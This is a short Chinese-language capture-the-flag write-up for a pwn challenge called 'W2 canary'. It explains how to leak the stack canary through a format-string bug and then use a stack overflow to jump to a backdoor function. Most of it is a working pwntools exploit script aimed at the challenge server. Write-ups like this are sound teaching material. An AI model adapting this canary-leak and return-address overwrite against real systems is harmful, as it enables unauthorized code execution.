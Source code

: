 # W2 canary

## 文件分析

下载`canary`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 逆向

观察程序发现后门函数，且没有pie，首先利用格式化字符串漏洞打印出canary的值，
然后栈溢出补上canary后跳转到后门函数即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26476)

# payload 1
sh.sendline(b'%11$p') # get canary

sh.recvuntil(b'gift:\n') # skip
canary = int(sh.recvline()[:18], 16)

# payload 2
backdoor = 0x00401262
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(backdoor))

sh.interactive()
```

Done.

